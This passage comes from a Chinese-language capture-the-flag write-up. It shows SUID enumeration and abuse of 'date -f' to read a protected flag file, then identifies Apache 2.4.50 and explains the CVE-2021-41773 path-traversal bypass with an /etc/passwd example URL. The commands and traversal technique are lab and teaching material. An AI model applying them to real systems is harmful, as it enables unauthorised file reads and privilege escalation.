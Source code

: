 是的，shell 那么容易就拿到，出题人不会就此善罢甘休的。

考虑提权。查找具有 SUID 的文件：

```shell
www-data@out:/$ find / -perm -u=s -type f 2>/dev/null
/bin/date
/bin/mount
/bin/su
/bin/umount
```

`date` 具有 `-file` 选项，考虑劫持 `date`

```shell
www-data@out:/$ date -f /ffll444aaggg
date: invalid date 'flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}' 
```

获得 flag.

```plain
flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}
```

### Unsafe Apache

靶机地址为 `node4.buuoj.cn:27256`，访问靶机，内容仅仅是

```html
<html><body><h1>It works!</h1></body></html>
```

没有什么可以传参或上传的地方。

查看响应标头

```http
Accept-Ranges: bytes
Connection: keep-alive
Date: Fri, 21 Oct 2022 15:12:37 GMT
Etag: "2d-432a5e4a73a80"
Keep-Alive: timeout=4
Last-Modified: Mon, 11 Jun 2007 18:53:14 GMT
Proxy-Connection: keep-alive
Server: Apache/2.4.50 (Unix)
```

发现 Web 服务器为 Apache，版本为 2.4.50（使用 Wappalyzer 可快速得知该信息）。

Apache 2.4.49 和 2.4.50 版本存在路径穿越和远程代码执行漏洞，即可以通过特定手段访问类似 `http(s)://ip:port/dir/../../../etc/passwd` 的地址读取到 Web 服务根目录以外的文件（`dir` 必须存在且可访问）。

#### CVE-2021-41773

Apache 2.4.49 使用的 `ap_normalize_path` 函数解析路径时会对路径进行 URL 解码，然后过滤掉 `../` 等路径穿越符。

但是该函数对路径穿越符的过滤是通过检测解析后的点号后面是否存在 `.`，因此 `%2e.` 会被过滤而 `.%2e` 和 `%2e%2e` 不会（估计作者当时是考虑文件后缀名忽略了 `..` 的情况）
